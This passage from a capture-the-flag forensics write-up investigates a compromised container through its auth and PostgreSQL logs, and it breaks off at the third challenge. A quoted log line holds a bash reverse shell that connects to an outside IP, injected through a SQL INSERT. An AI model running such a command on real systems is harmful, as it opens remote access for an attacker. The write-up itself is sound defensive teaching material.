 - `--rm`: Remove the container immediately after it is closed
- `-i`: Keep STDIN open
- `-t`: Allocate a pseudo-TTY

To get the last login time, we can look to `/var/log/auth.log`

{% highlight bash %}
cat /var/log/auth.log
{% endhighlight %}

``` text
Apr 18 06:10:06 4853fe8cb6a2 sudo: pam_unix(sudo:session): session opened for user root by (uid=0)
```

**Flag:** `Apr 18 06:10:06`

## Odyssey 2

### Odyssey 2 - Challenge

What is the IP address of the client that abused a legitimate service to access this container?

### Odyssey 2 - Solution

In the previous section we saw that the only unique directories in `/var/log` were `postgresql` and `exim4`.
Let's dig into postgres.

{% highlight bash %}
cd /var/log/postgresql
cat postgresql-2020-04-18_060048.csv
{% endhighlight %}

Skimming the file a few things look a tad peculiar, but this line in particular is a dead giveaway that a reverse shell has been dropped.

``` text
...[truncated]
2020-04-18 06:07:34.075 UTC,"ulysses","ithaca",131,"172.17.0.3:37542",5e9a9827.83,7,"idle",2020-04-18 06:03:19 UTC,3/11,0,LOG,00000,"statement: INSERT INTO scylla(t) VALUES('bash -i >& /dev/tcp/192.168.1.222/9292 0>&1');",,,,,,,,,"psql"
...
```

Luckily, this line also gives us the flag.

**Flag:** `172.17.0.3`

## Odyssey 3

### Odyssey 3 - Challenge

What is the name of the postgres user on this container?

### Odyssey 3 - Solution
